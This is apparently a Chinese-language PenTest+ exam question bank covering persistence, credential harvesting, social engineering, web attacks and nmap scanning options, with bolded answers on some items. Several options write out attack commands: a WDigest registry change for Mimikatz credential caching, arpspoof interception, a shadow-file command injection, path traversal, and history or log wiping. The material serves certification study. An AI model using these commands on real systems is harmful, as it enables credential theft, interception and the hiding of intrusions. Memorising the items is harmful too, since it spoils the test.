### 153. 在涉及 Linux 系统的渗透测试中，以下哪种技术可用于建立持久性？

1.  启用 WMI。
2.  使用 `cron` 计划作业以运行漏洞利用脚本或启动守护进程。
3.  使用任务计划程序计划任务以运行漏洞利用可执行文件或脚本。
4.  使用 PS 远程处理。

### 154. 以下哪些工具可用于在无需干预的情况下自动在 Windows 系统上运行任务？（选择两项。）

1.  WMI
2.  `at`
3.  任务计划程序
4.  PS 远程处理
5.  `cron`

### 155. 以下哪项是一种在运行时提供有用功能但秘密执行恶意操作的恶意软件类型？

1.  后门
2.  特洛伊木马
3.  守护进程
4.  蠕虫


## 156. 你正在执行灰盒渗透测试。你已成功攻陷目标计算机系统。可以采用哪些技术来确保持久性？（选择两项。）

1.  创建后门。
2.  创建用户账户。
3.  禁用 syslog 守护进程。
4.  安装 Telnet 服务。
5.  启用 Samba 守护进程。

## 157. 你正在执行灰盒渗透测试。你已成功攻陷目标计算机系统。现在你需要掩盖踪迹以隐藏你的行动证据。可以采用哪些技术？（选择两项。）

1.  在管理员的主目录中创建一个名为 `Youvebeenhacked.txt` 的文本文件。
2.  删除所有日志文件中的所有条目。
3.  隐藏复制到系统中的任何文件。
4.  修改攻陷系统时创建的日志条目。

## 158. 渗透测试人员在交付结束时运行 `chkconfig --del <servicename>` 命令。测试人员这样做的原因可能是什么？

1.  检查持久性
2.  启用持久性
3.  移除持久性
4.  报告持久性

## 159. 如果渗透测试人员试图通过攻陷 Windows 服务器来实现持久性，应使用以下哪项？

1.  `net session server | dsquery -user | net use c$`
2.  `powershell && set-executionpolicy unrestricted`
3.  `reg save HKLM\\System\\CurrentControlSet\\Services\\Sv.reg`
4.  `schtasks.exe /create/tr "powershell.exe" Sv.ps1 /run`

## 160. 客户要求进行无线渗透测试。在测试开始前，最可能需要哪些范围界定目标信息？

1.  客户使用的无线设备的频段和频率
2.  客户首选的无线接入点供应商
3.  客户拥有的无线设备数量
4.  要测试的物理位置和网络 ESSID

## 161. 以下哪项是定向鱼叉式网络钓鱼攻击的实例？

1.  以短信攻击针对 CFO（首席财务官）
2.  以电子邮件攻击针对 HR 团队（人力资源团队）
3.  以 USB 密钥投放针对随机用户
4.  以水坑攻击针对某个组织

## 162. 渗透测试人员在完成基础设施方面的测试后，需要对目标公司的员工执行开源情报 (OSINT) 收集。以下哪项是最佳行动方案？

1.  前往客户现场并使用冒充手段从员工处获取信息。
2.  使用社会工程学技巧，尝试通过致电公司来获取员工信息。
3.  在互联网上搜索员工信息，例如访问社交网站。
4.  向员工发送伪造邮件，查看他们是否会回复敏感信息。

## 163. 渗透测试人员正在运行钓鱼测试，并从一台运行 Windows 10 操作系统的内部计算机获得了一个 Shell。测试人员决定使用 Mimikatz 进行凭据收集。测试人员希望允许凭据缓存。以下哪项注册表更改将允许此操作？

1.  `reg add HKLM\\System\\ControlSet002\\Control\\SecurityProviders\\WDigest /v UseLogoCredential /t REG-DWORD /d 0`
2.  `reg add HKCU\\System\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogoCredential /t REG_DWORD /d 1`
3.  `reg add HKLM\\Software\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogoCredential /t REG_DWORD /d 1`
4.  `reg add HKLM\\System\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogoCredential /t REG_DWORD /d 1`

## 164. 渗透测试人员成功部署了一个邪恶双生热点，并开始看到一些受害者流量。为了捕获受害者所有的未加密 Web 流量，测试人员接下来想采取的步骤是什么？

1.  收集用户凭据以解密流量。
2.  通过冒充受信任的 CA 实施证书颁发机构 (CA) 攻击。
3.  实施 HTTP 降级攻击。
4.  执行中间人攻击。

## 165. 渗透测试人员受客户委托审查一个新的 Web 应用程序的可用性。测试人员应利用以下哪种类型的攻击？

1.  TCP SYN 洪水攻击
2.  SQL 注入
3.  跨站脚本 (XSS)
4.  XMAS 扫描

## 166. 一个 Web 应用程序被开发用于针对浏览器并允许访问不同的银行账户。该应用程序从一个账户取走几美元并发送到一个国外账户。刚刚发生了哪种类型的攻击？

1.  跨站脚本
2.  Flash Cookie 利用
3.  标头操纵
4.  SQL 注入

## 167. 某组织的多名员工最近成为了钓鱼攻击的受害者。他们收到一封看似来自公司总裁的电子邮件。邮件称，如果员工不按邮件指示操作并点击邮件中的链接，将面临纪律处分。攻击者利用了社会工程学的哪些原则？

1.  权威
2.  恐惧
3.  稀缺
4.  社会认同

## 168. 渗透测试人员正在对一个 Web 应用程序进行扫描。在审查扫描结果时，以下哪个漏洞最为关键，应优先考虑利用？

1.  点击劫持
2.  证书过期
3.  完整路径泄露
4.  存储型跨站脚本 (XSS)

## 169. 渗透测试人员正在对交换机进行 ARP 欺骗。为了获取最多信息，测试人员应该欺骗以下哪项？

1.  客户端的 MAC 地址
2.  域控制器的 MAC 地址
3.  Web 服务器的 MAC 地址
4.  网关的 MAC 地址

## 170. MITM 攻击命令选择

一名渗透测试人员正试图对一台计算机执行中间人（MITM）攻击。该计算机的网络配置如下：

*   IP: `192.168.10.25`
*   NETMASK: `255.255.255.0`
*   DEFAULT GATEWAY: `192.168.10.254`
*   DHCP: `192.168.1.253`
*   DNS: `192.168.10.10`, `192.168.20.10`

恶意用户应执行以下哪条命令来执行 MITM 攻击？

1.  `arpspoof -c both -r -t 192.168.10.1 192.168.10.25`
2.  `arpspoof -c both -t 192.168.10.25 192.168.1.253`
3.  `arpspoof -t 192.168.10.25 192.168.10.254`
4.  `arpspoof -r -t 192.168.1.253 192.168.10.25`

## 171. Web 应用黑盒评估意图

在对基于 Web 的应用程序进行黑盒评估期间，渗透测试人员仅获得一个登录页面的 URL。以下是代码和输出：

```
import requests
from BeautifulSoup import BeautifulSoup
request = requests.get ("https://www.willpanek.com/admin")
respHeaders, respBody = request [0], request [1]
if respHeader.statuscode = 200:
   soup = BeautifulSoup (respBody)
   soup = soup.FindAll ("div", {"type": "hidden"})
   print respHeader.StatusCode, StatusMessage
else:
   print respHeader.StatusCode, StatusMessage
Output: 200 OK
```

渗透测试人员试图做什么？

1.  分析 HTTP 响应代码。
2.  水平提升权限。
3.  抓取页面以查找隐藏字段。
4.  搜索 HTTP 头部。

## 172. 缺失 CSP 头部的后续攻击

在 Web 应用程序渗透测试期间，渗透测试人员观察到内容安全策略（CSP）头部缺失。测试人员最有可能接下来执行哪种类型的攻击？

1.  点击劫持攻击
2.  命令注入攻击
3.  目录遍历攻击
4.  远程文件包含攻击

## 173. “门下工具”物理入侵技术

一名渗透测试人员正在尝试物理安全评估，并希望在测试期间使用“门下工具”。测试人员应尝试以下哪种入侵技术？

1.  出口传感器触发
2.  撞匙开锁
3.  绕过门锁
4.  技术开锁

## 174. 登录表单提交方式修正

一名渗透测试人员正在对 Web 应用程序进行测试，发现用户登录过程使用 HTTP GET 方法发送 FROM 字段数据。为了降低敏感数据泄露的风险，HTML 表单应使用以下哪种方式发送？

1.  HTTP OPTIONS 方法
2.  HTTP POST 方法
3.  HTTP PUT 方法
4.  HTTP TRACE 方法

## 175. 社会工程学动机技术：权威原则

首席财务官（CFO）收到一封来自首席执行官（CEO）的电子邮件，表明需要向新供应商发起电汇。然而，CFO 和 CEO 都不知道这位新供应商是谁。CEO 声称他从未发送过请求转账的电子邮件。攻击者正在尝试哪种动机技术？

1.  权威原则
2.  恐惧原则
3.  相似性原则
4.  稀缺性原则
5.  社会认同原则

## 176. Kerberoasting 攻击适用场景

你是一名渗透测试人员，正在考虑执行 Kerberoasting 攻击。给定以下情况，在哪一种情况下你会执行 Kerberoasting 攻击？

1.  测试人员攻破一台 Windows 设备并转储本地安全机构（LSA）机密。
2.  测试人员需要检索安全账户管理器（SAM）数据库并破解密码哈希。
3.  测试人员攻破一个权限有限的用户账户，并需要以此为跳板针对其他账户进行横向移动。
4.  测试人员攻破一个账户，并需要从系统中转储哈希和明文密码。

## 177. Windows 低权限持久化注册表键

你是一名渗透测试人员，在测试过程中试图在一个权限有限的 Windows 系统上维持持久化。你应该使用哪个注册表键？

1.  `HKEY_CLASSES_ROOT`
2.  `HKEY_CURRENT_CONFIG`
3.  `HKEY_CURRENT_USER`
4.  `HKEY_LOCAL_MACHINE`

## 178. 捕获 WPA2-PSK 握手包的攻击方式

一名渗透测试人员正在监控一个受 WPA2-PSK 保护的无线网络，并试图捕获客户端与接入点之间的握手。尽管测试人员正在监控正确的信道，但一直未成功。哪种类型的攻击将帮助测试人员获得握手？

1.  去认证攻击
2.  碎片攻击
3.  Karma 攻击
4.  SSID 广播泛洪

## 179. PsExec 连接所需的共享

一名渗透测试人员成功捕获了一台远程 Windows 机器的管理员凭据。测试人员现在尝试使用 `PsExec` 访问该系统。然而，测试人员被拒绝权限。为了成功建立 `PsExec` 连接，必须可访问哪些共享？

1.  `ADMIN$` 和 `C$`
2.  `ADMIN$` 和 `IPC$`
3.  `ADMIN$` 和 `SERVICES`
4.  `IPC$` 和 `C$`

## 180. Linux `chmod 4111` 权限问题分析

一名渗透测试人员在 Linux 文件系统上运行了以下命令：

*   `chmod 4111 /usr/bin/sudo`

现在可以操纵什么问题？

1.  内核漏洞
2.  错误配置的 sudo
3.  粘滞位
4.  未加引号的服务路径

## 181. 证书 SAN 属性的优势

一名安全管理员试图利用证书的主题替代名称（SAN）属性来加密通信。管理员应利用 SAN 的原因是什么？

1.  可以保护多个域
2.  不需要受信任的证书颁发机构（CA）
3.  保护无限子域
4.  提供扩展站点验证

## 182. 目录遍历攻击识别

一名安全分析师正在审查 Web 应用程序的日志。分析师发现一个可疑请求。该请求显示以下 URL：`http://www.companysite.com/about.php?i=../../../etc/passwd`。此请求正在尝试什么？

1.  跨站脚本攻击
2.  目录遍历
3.  远程文件包含
4.  用户枚举

## 183. 中间人攻击定义

你和一位同事正在讨论可以发生的不同类型的攻击。其中一种攻击是：双方之间的通信被拦截并转发，双方均未意识到甚至发生了拦截。正在讨论哪种类型的攻击？

1.  中间人攻击
2.  定向钓鱼攻击
3.  传递访问攻击
4.  URL 劫持攻击

## 184. 清除 Linux 会话命令历史

一名渗透测试人员成功利用了应用程序漏洞，现在需要从 Linux 会话中删除命令历史。哪个命令将删除命令历史？

1.  `$ cat history /clear`
2.  `$ history -c`
3.  `$ history --remove`
4.  `$ rm -f ./history`

## 185. 社会工程学攻击：冒充

一名服务台技术人员接到一个自称是员工的人的电话。此人已被锁定在账户之外，并请求协助解锁。服务台在授予访问权限前要求提供身份证明。来电者试图执行哪种类型的攻击？

1.  冒充
2.  审讯
3.  网络钓鱼
4.  偷窥

## 186. SQL 注入缓解的短期低成本方案

一名渗透测试人员最近完成了一项测试，结果显示一个遗留 Web 应用程序容易受到 SQL 注入攻击。客户表示，修复该漏洞将需要架构变更，且管理层不想冒任何风险影响当前应用程序。以下哪些条件可在提供低工作量和短期解决方案的同时最大程度降低 SQL 注入风险？（选择两项。）

1.  识别并从存储过程中移除动态 SQL。
2.  识别并从代码中移除内联 SQL 语句。
3.  识别并清理所有用户输入。
4.  识别恶意输入的来源并阻止该 IP 地址。
5.  对 SQL 语句使用黑名单验证。
6.  对 SQL 语句使用白名单验证。

## 187. 渗透测试员在一台被攻陷的机器上运行以下命令：`python -c 'import pty; pty.spawn("/bin/bash")'` 测试员正在执行什么操作？

1.  创建沙箱
2.  捕获凭据
3.  删除 Bash 历史记录
4.  升级 Shell

## 188. 以下哪种物理安全攻击类型是人员闸（mantrap）所利用的？

1.  冒充
2.  撬锁
3.  尾随
4.  偷窥

## 189. 渗透测试员使用社会工程学工具包（`SET`）复制了公司托管在云端的 Web 邮件门户，并发送电子邮件试图获取 CEO 的登录凭据。这是哪种类型攻击的示例？

1.  诱导攻击
2.  冒充攻击
3.  定向钓鱼攻击
4.  鲸钓攻击

## 190. 渗透测试员正在测试客户网络的渗透，并设法获得了对一台笔记本电脑的访问权限。测试员从笔记本电脑获取凭据的下一步是什么？

1.  暴力破解用户密码。
2.  进行 `LLMNR/NETBIOS-NS` 查询。
3.  利用 `BeEF` 框架捕获凭据。
4.  执行 ARP 欺骗投毒。

## 191. 你是一名渗透测试员，在客户的域控制器中发现了一个漏洞。该漏洞是域控制器上启用了空会话。可以执行哪种类型的攻击来利用此漏洞？

1.  尝试传递哈希攻击以中继凭据。
2.  尝试密码暴力破解以登录主机。
3.  尝试 RID 循环以枚举用户和组。
4.  尝试会话劫持以冒充系统账户。

## 192. 渗透测试员受邀通过进入公司办公室来评估客户的物理安全。测试员正在寻找一种方法，允许他在工作时间和非工作时间都能进入大楼。对测试员来说，尝试哪种方法最有效？

1.  徽章克隆
2.  撬锁
3.  使用锁绕过
4.  尾随

## 193. 某组织的总裁报告称，他接到了一些自称是帮助台部门人员的电话。该人员要求 CEO 验证其网络身份验证凭据，因为他的计算机正在网络上广播。正在发生哪种类型的攻击？

1.  冒充
2.  审讯
3.  语音钓鱼
4.  鲸钓攻击

## 194. 渗透测试员在对客户网络的测试中发现了一些未加引号的服务路径。测试员如何利用这些漏洞？

1.  尝试破解服务账户密码
2.  尝试 DLL 劫持攻击
3.  尝试定位薄弱的文件和文件夹权限
4.  尝试提权攻击

## 195. 当目标通过蓝牙接收未经请求的消息时，正在进行哪种类型的攻击？

1.  Bluesnarfing（蓝牙窃取）
2.  Bluesniping（蓝牙狙击）
3.  Bluejacking（蓝牙发送垃圾信息）
4.  War chalking（战争粉笔标记）

## 196. 测试员在服务器上发现了以下日志条目：

*   Dec 23 2018 00:22:16 `httpd[2342]`: GET
*   `/app2/prod/proc/process.php?input=change;cd%20../../../etc;cat%20shadow`

尝试了哪种类型的攻击？

1.  缓冲区溢出
2.  命令注入
3.  跨站脚本
4.  密码攻击

## 197. 你和同事正在讨论不同类型的攻击。其中一种攻击是一种客户端攻击，它通过 Web 浏览器使用 JavaScript 代码来操纵 HTML iframe。这描述的是哪种类型的攻击？

1.  缓冲区溢出
2.  跨站脚本（`XSS`）
3.  中间人攻击（`MITM`）
4.  SQL 注入（`SQLi`）


# 198. 用户注意到他们的机器在过去一周表现异常。他们遇到了运行缓慢和输入延迟。用户发现了一些文本文件，似乎包含其电子邮件的片段和一些即时通讯对话。用户运行病毒扫描，未检测到任何内容。哪种类型的恶意软件可能正在影响这台机器？

1. 后门
2. **键盘记录器**
3. 勒索软件
4. Rootkit

# 199. 你和同事正在讨论竞争条件利用。以下哪项是竞争条件的示例？

1. 跨站请求伪造（`XSRF`）
2. 硬编码凭据
3. SQL 注入（`SQLi`）
4. **检查时间到使用时间（`TOCTTOU`）**

# 200. 你是一名渗透测试员，希望针对客户的 Web 应用程序发起会话劫持攻击。为了确保攻击成功，获取什么信息很重要？

1. **一个会话 Cookie**
2. 一个会话票据
3. 一个用户名
4. 一个用户密码

# 第 4 章：渗透测试工具

## 本章涵盖的 Pentest+ 考试主题包括：

### 领域 4：渗透测试工具

*   **4.1 给定场景，使用 Nmap 进行信息收集练习。**

    *   SYN 扫描（`-sS`）与全连接扫描（`-sT`）
    *   端口选择（`-p`）
    *   服务识别（`-sV`）
    *   操作系统指纹识别（`-O`）
    *   禁用 Ping（`-Pn`）
    *   目标输入文件（`-iL`）
    *   时间控制（`-T`）
    *   输出参数
        *   `-oA`
        *   `-oN`
        *   `-oG`
        *   `-oX`

*   **4.2 比较和对比各种工具的用例。**

    *   用例
        *   侦察
        *   枚举
        *   漏洞扫描
        *   凭据攻击
            *   离线密码破解
            *   服务暴力破解
        *   持久化
        *   配置合规性
        *   规避
        *   反编译
        *   取证
        *   调试
        *   软件保障
            *   模糊测试
            *   SAST
            *   DAST

    *   工具
        *   扫描器
            *   Nikto
            *   OpenVAS
            *   SQLmap
            *   Nessus
        *   凭据测试工具
            *   Hashcat
            *   Medusa
            *   Hydra
            *   Cewl
            *   John the Ripper
            *   Cain and Abel
            *   Mimikatz
            *   Patator
            *   Dirbuster
            *   W3AF
        *   调试器
            *   OLLYDBG
            *   Immunity Debugger
            *   GDB
            *   WinDBG
            *   IDA
        *   软件保障
            *   Findbugs/findsecbugs
            *   Peach
            *   AFL
            *   SonarQube
            *   YASCA
        *   OSINT
            *   Whois
            *   Nslookup
            *   Foca
            *   TheHarvester
            *   Shodan
            *   Maltego
            *   Recon-NG
            *   Censys
        *   无线
            *   Aircrack-NG
            *   Kismet
            *   WiFite
        *   Web 代理
            *   OWASP ZAP
            *   Burp Suite
        *   社会工程学工具
            *   SET
            *   BeEF
        *   远程访问工具
            *   SSH
            *   NCAT
            *   NETCAT
            *   Proxychains
        *   网络工具
            *   Wireshark
            *   Hping
        *   移动工具
            *   Drozer
            *   APKX
            *   APK Studio
        *   杂项
            *   Searchsploit
            *   Powersploit
            *   Responder
            *   Impacket
            *   Empire
            *   Metasploit Framework

# 4.3 给定场景，分析与渗透测试相关的工具输出或数据。

- 密码破解
- 传递哈希
- 建立绑定 Shell
- 获取反向 Shell
- 代理连接
- 上传 Web Shell
- 注入

# 4.4 给定场景，分析基本脚本（仅限 Bash、Python、Ruby 和 PowerShell）。

- 逻辑
  - 循环
  - 流程控制
- I/O
  - 文件 vs. 终端 vs. 网络
- 替换
- 变量
- 常见操作
  - 字符串操作
  - 比较
- 错误处理
- 数组
- 编码/解码

---

## 1. SYN 端口扫描命令

你正在为客户进行灰盒渗透测试。你已将 IP 地址为 `192.168.1.1` 的内部主机识别为潜在目标。你需要在笔记本电脑上使用 `nmap` 实用程序对该主机运行 SYN 端口扫描。应该使用哪个命令来执行此操作？

1. `nmap 192.168.1.1 -sS`
2. `nmap 192.168.1.1 -sT`
3. `nmap 192.168.1.1 -sU`
4. `nmap 192.168.1.1 -sA`

## 2. 子网扫描命令（选择两项）

你正在为客户进行白盒渗透测试。你需要在笔记本电脑上使用 `nmap` 实用程序扫描 `192.168.1.0` 子网（使用子网掩码 `255.255.255.0`）上的每台主机。可以使用哪些命令来执行此操作？（选择两项。）

1. `nmap 192.168.1.0`
2. `nmap 192.168.1.0-255`
3. `nmap 192.168.1.0 –m:255.255.255.0`
4. `nmap 192.168.1.0/24`
5. `nmap 192.168.1.1-254`

## 3. SYN 端口扫描命令（选择两项）

你正在为客户进行灰盒渗透测试。你已将 IP 地址为 `192.168.1.1` 的内部主机识别为潜在目标。你需要在笔记本电脑上使用 `nmap` 实用程序对该主机运行 SYN 端口扫描。可以使用哪些命令来执行此操作？（选择两项。）

1. `nmap 192.168.1.1 –sS`
2. `nmap 192.168.1.1`
3. `nmap 192.168.1.1 -sV`
4. `nmap 192.168.1.1 -O`
5. `nmap 192.168.1.1 –T0`

## 4. 操作系统检测命令

你正在为客户进行灰盒渗透测试。你已将 IP 地址为 `192.168.1.1` 的内部主机识别为潜在目标。你需要在笔记本电脑上使用 `nmap` 实用程序确定该主机上运行的操作系统。应该使用哪个命令来执行此操作？

1. `nmap 192.168.1.1 –sS`
2. `nmap 192.168.1.1 –sL`
3. `nmap 192.168.1.1 -sV`
4. `nmap 192.168.1.1 -O`

## 5. 用于操作系统检测的积极扫描

你正在为客户进行灰盒渗透测试。你已将 IP 地址为 `192.168.1.1` 的内部主机识别为潜在目标。你需要在笔记本电脑上使用 `nmap` 实用程序确定该主机上运行的操作系统。可以使用哪个命令来执行此操作？

1. `nmap 192.168.1.1 –A`
2. `nmap 192.168.1.1 –T1`
3. `nmap 192.168.1.1 -sT`
4. `nmap 192.168.1.1 -f`

## 6. TCP 连接扫描命令

你正在为客户进行灰盒渗透测试。你已将 IP 地址为 `192.168.1.1` 的内部主机识别为潜在目标。你需要在笔记本电脑上使用 `nmap` 实用程序对该主机运行 TCP 连接扫描。应该使用哪个命令来执行此操作？

1. `nmap 192.168.1.1 –sL`
2. `nmap 192.168.1.1 –T1`
3. `nmap 192.168.1.1 -sT`
4. `nmap 192.168.1.1 -f`

## 7. UDP 端口扫描命令

你正在为客户进行灰盒渗透测试。你已将 IP 地址为 `192.168.1.1` 的内部主机识别为潜在目标。你需要在笔记本电脑上使用 `nmap` 实用程序对该主机运行 UDP 端口扫描。应该使用哪个命令来执行此操作？

1. `nmap 192.168.1.1 –sL`
2. `nmap 192.168.1.1 –U`
3. `nmap 192.168.1.1 -sT`
4. `nmap 192.168.1.1 -sU`

## 8. 主机发现（列表扫描）

你正在为客户进行灰盒渗透测试。你需要在笔记本电脑上使用 `nmap` 实用程序发现 `192.168.1.0` 子网（使用子网掩码 `255.255.255.0`）上的所有主机，而不实际扫描这些主机。应该使用哪个命令来执行此操作？

1. `nmap 192.168.1.0/24 –sL`
2. `nmap 192.168.1.0/24 --list`
3. `nmap 192.168.1.1-254 -sW`
4. `nmap 192.168.1.1-254 -sM`

## 9. TCP ACK 扫描命令

你正在为客户进行灰盒渗透测试。你已将 IP 地址为 `192.168.1.1` 的内部主机识别为潜在目标。你需要在笔记本电脑上使用 `nmap` 实用程序对该主机运行 TCP ACK 扫描。应该使用哪个命令来执行此操作？

1. `nmap 192.168.1.1 –sA`
2. `nmap 192.168.1.1 –T1`
3. `nmap 192.168.1.1 -sT`
4. `nmap 192.168.1.1 -ACK`

## 10. 带排除的子网扫描

你正在为客户进行白盒渗透测试。你需要在笔记本电脑上使用 `nmap` 实用程序扫描 `192.168.1.0` 子网（使用子网掩码 `255.255.255.0`）上的每台主机，但不扫描 IP 地址为 `192.168.1.250` 的主机（你怀疑它是一个蜜罐主机）。应该使用哪个命令来执行此操作？

1. `nmap 192.168.1.1-254`
2. `nmap 192.168.1.0/24 --noscan 192.168.1.250`
3. `nmap 192.168.1.0/24 --exclude 192.168.1.250`
4. `nmap 192.168.1.1-254 --skip 192.168.1.250`

## 11. 针对特定主机的 TCP ACK 扫描

你正在为客户进行灰盒渗透测试。你需要在笔记本电脑上使用 `nmap` 实用程序对 IP 地址为 `192.168.1.10`、`192.168.1.11` 和 `192.168.1.13` 的网络主机运行 TCP ACK 扫描。应该使用哪个命令来执行此操作？

1. `nmap 192.168.1.10-13 –sA`
2. `nmap 192.168.1.0/24 –sA`
3. `nmap 192.168.1.10/24 -sA`
4. `nmap 192.168.1.10-13 –sT`

## 12. 针对特定主机的 UDP 扫描

你正在为客户进行灰盒渗透测试。你需要在笔记本电脑上使用 `nmap` 实用程序对 IP 地址为 `192.168.1.10`、`192.168.1.11`、`192.168.1.13` 和 `192.168.1.15` 的网络主机运行 UDP 扫描。应该使用哪个命令来执行此操作？

1. `nmap 192.168.1.10-15 –sU`
2. `nmap 192.168.1.0/24 –sU`
3. `nmap 192.168.1.10 192.168.1.11 192.168.1.12 192.168.1.13 192.168.1.15 -sU`
4. `nmap 192.168.1.10 192.168.1.11 192.168.1.12 192.168.1.13 192.168.1.15 –U`

## 13. 主机发现（Ping 扫描 / 无端口扫描）

你正在为客户进行灰盒渗透测试。你需要在笔记本电脑上使用 `nmap` 实用程序发现 `192.168.1.0` 子网（使用子网掩码 `255.255.255.0`）上的所有主机，而不实际扫描这些主机上的任何端口。应该使用哪个命令来执行此操作？

1. `nmap 192.168.1.0/16 –sL`
2. `nmap 192.168.1.1-254 -sn`
3. `nmap 192.168.1.1-254 -sW`
4. `nmap 192.168.1.0/16 -sM`

## 14. Telnet 端口扫描

你正在为客户进行灰盒渗透测试。你需要在笔记本电脑上使用 `nmap` 实用程序发现 `192.168.1.0` 子网（使用子网掩码 `255.255.255.0`）上开放了 Telnet 端口的所有主机。应该使用哪个命令来执行此操作？

1. `nmap 192.168.1.0/24 –s 23`
2. `nmap 192.168.1.0/24 –p 21`
3. `nmap 192.168.1.1-254 –p 21`
4. `nmap 192.168.1.1-254 –p 23`

## 15. 扫描所有端口

你正在为客户进行灰盒渗透测试。你需要在笔记本电脑上使用 `nmap` 实用程序扫描 IP 地址为 `192.168.1.2` 的网络主机上的所有端口。应该使用哪个命令来执行此操作？

1. `nmap 192.168.1.2 -p-`
2. `nmap 192.168.1.2 –p all`
3. `nmap 192.168.1.2 –s all`
4. `nmap 192.168.1.2 –p 1-1024`

## 16. 过滤端口状态的含义

你正在为客户进行灰盒渗透测试。你使用 `nmap` 实用程序查看在发现的 Linux 服务器上 Telnet 服务是否正在运行。命令输出表明 Telnet 端口状态为**过滤**。这可能意味着什么？

1. Telnet 服务已安装但未运行。
2. Telnet 服务未安装。
3. Telnet 服务未安装，且其他服务正在使用其默认端口。
4. Telnet 服务已安装并正在运行，但主机防火墙正在阻止它。

# Nmap 渗透测试练习题

## 17. Telnet 端口状态为 Open 的含义

你正在为客户进行灰盒渗透测试。你使用 `nmap` 实用程序查看在发现的 Linux 服务器上 Telnet 服务是否正在运行。命令输出表明 Telnet 端口状态为 **Open**。这意味着什么？

1. Telnet 服务已安装但未运行。
2. **Telnet 服务已安装、正在运行且可访问。**
3. Telnet 服务未安装，且其他服务正在使用其默认端口。
4. Telnet 服务未安装。

## 18. Telnet 端口状态为 Closed 的含义

你正在为客户进行灰盒渗透测试。你使用 `nmap` 实用程序查看在发现的 Linux 服务器上 Telnet 服务是否正在运行。命令输出表明 Telnet 端口状态为 **Closed**。这可能意味着什么？（选择两项。）

1. **Telnet 服务已安装但未运行。**
2. Telnet 服务已安装、正在运行且可访问。
3. Telnet 服务未安装，且其他服务正在使用其默认端口。
4. **Telnet 服务未安装。**
5. Telnet 服务已安装并正在运行，但主机防火墙正在阻止它。

## 19. TCP SYN 扫描选项

渗透测试人员使用 `nmap` 实用程序向目标主机发送 TCP SYN 数据包。目标主机响应 SYN ACK 数据包，但 `nmap` 没有完成连接，而是向目标主机发送了一个复位数据包。测试人员在 `nmap` 命令中使用了哪个选项？

1. **`-sS`**
2. `-sT`
3. `-sU`
4. `-sL`

## 20. 服务版本检测选项


# Nmap 命令与渗透测试工具练习题

## 哪个命令选项会导致 `nmap` 检测目标主机上运行的服务并报告找到的任何服务的版本号？

1.  `-sS`
2.  `-sT`
3.  `-sU`
4.  **`-sV`**

## 21. 指定扫描 UDP 20 和 TCP 21、22 端口

哪个命令选项将导致 `nmap` 仅扫描 UDP 端口 20 和 TCP 端口 21 和 22？

1.  `-p 20-22`
2.  `--top-ports 1024`
3.  **`-p U:20,T:21,22`**
4.  `-p-`

## 22. 扫描 Web 服务器端口

作为渗透测试人员，你想扫描目标网络中 IP 地址为 `192.168.1.200` 的 Linux 服务器，查看它是否安装并运行了 Web 服务器。哪些 `nmap` 命令可以做到这一点？（选择两项。）

1.  **`nmap 192.168.1.200 –p http,https`**
2.  `nmap 192.168.1.200 –sn 80,443`
3.  **`nmap 192.168.1.200 –p 80,443`**
4.  `nmap 192.168.1.200 –T4 80,443`

## 23. 扫描前 1000 个热门端口并排除 DNS 端口

作为渗透测试人员，你想扫描目标网络中 IP 地址为 `192.168.1.200` 的 Linux 服务器的 1000 个最流行的网络服务，查看它们是否安装并运行。然而，你已经知道此主机正在运行 DNS 服务，因此你想在扫描中跳过此端口。哪个 `nmap` 命令可以做到这一点？

1.  `nmap 192.168.1.200 –p 1-1000 --exclude-ports 53`
2.  **`nmap 192.168.1.200 --top-ports 1000 --exclude-ports 53`**
3.  `nmap 192.168.1.200 --well-known-ports --exclude-ports 53`
4.  `nmap 192.168.1.200 --top-ports 1000`

## 24. 从文件读取目标列表

你已创建一个要用 `nmap` 扫描的目标主机列表，并将其保存到名为 `/root/targets.txt` 的文本文件中。应该使用哪个命令来使用此文件运行扫描？

1.  `nmap -iR /root/targets.txt`
2.  `nmap --file /root/targets.txt`
3.  **`nmap -iL /root/targets.txt`**
4.  `nmap -iF /root/targets.txt`

## 25. 跳过主机发现扫描子网

渗透测试人员想要在不先实际发现主机的情况下，对 `192.168.1.0` 子网（子网掩码为 `255.255.255.0`）上的所有主机运行端口扫描。她应该使用哪个命令？

1.  **`nmap 192.168.1.0/24 -Pn`**
2.  `nmap 192.168.1.0/24 -sL`
3.  `nmap 192.168.1.0/24 -sn`
4.  `nmap 192.168.1.0/24 -n`

## 26. 避免被激进 IPS 检测的时序选项

渗透测试人员正在使用 `nmap` 扫描目标网络上的主机。客户使用激进的 IPS 工具并雇佣了经验丰富的 IT 员工，测试人员需要避开他们。假设时间不是问题，她应该使用哪个 `nmap` 时序选项来避免被检测到？

1.  **`-T1`**
2.  `-T3`
3.  `-T4`
4.  `-T5`

## 27. 安全姿态松散环境下的加速扫描时序选项

渗透测试人员正在使用 `nmap` 扫描目标网络上的主机。客户安全姿态松散，且雇佣了相对缺乏经验的 IT 员工。她可以考虑使用哪个时序选项来加快扫描速度？

1.  `-T1`
2.  `-T2`
3.  `-T3`
4.  **`-T4`**

## 28. 默认时序选项

渗透测试人员运行 `nmap` 扫描时未指定时序选项。默认使用哪一个？

1.  `-T1`
2.  `-T2`
3.  **`-T3`**
4.  `-T4`
5.  `-T0`

## 29. Paranoid 模式时序选项

哪个 `nmap` 时序选项会导致其以 **Paranoid**（偏执）模式扫描？

1.  **`-T0`**
2.  `-T1`
3.  `-T2`
4.  `-T3`
5.  `-T4`

## 30. Insane 模式时序选项

哪个 `nmap` 时序选项会导致其以 **Insane**（疯狂）模式扫描？

1.  **`-T5`**
2.  `-T4`
3.  `-T3`
4.  `-T2`
5.  `-T1`

## 31. Polite 模式时序选项

哪个 `nmap` 时序选项会导致其以 **Polite**（礼貌）模式扫描？

1.  `-T0`
2.  `-T1`
3.  **`-T2`**
4.  `-T3`
5.  `-T4`

## 32. 保存标准文本输出

哪个选项会导致 `nmap` 将其输出保存到运行它的主机文件系统中的标准文本文件中？

1.  `-oX`
2.  **`-oN`**
3.  `-oT`
4.  `-oV`

## 33. 保存 XML 格式输出

哪个选项会导致 `nmap` 将其输出保存到运行它的主机文件系统中的 XML 格式文本文件中？

1.  **`-oX`**
2.  `-oN`
3.  `-oT`
4.  `-oG`

## 34. 保存可 Grep 搜索的输出

哪个选项会导致 `nmap` 将其输出保存到可使用 `grep` 命令快速搜索的文本文件中？

1.  `-oV`
2.  `-oN`
3.  `-oT`
4.  **`-oG`**

## 35. 同时保存三种格式输出

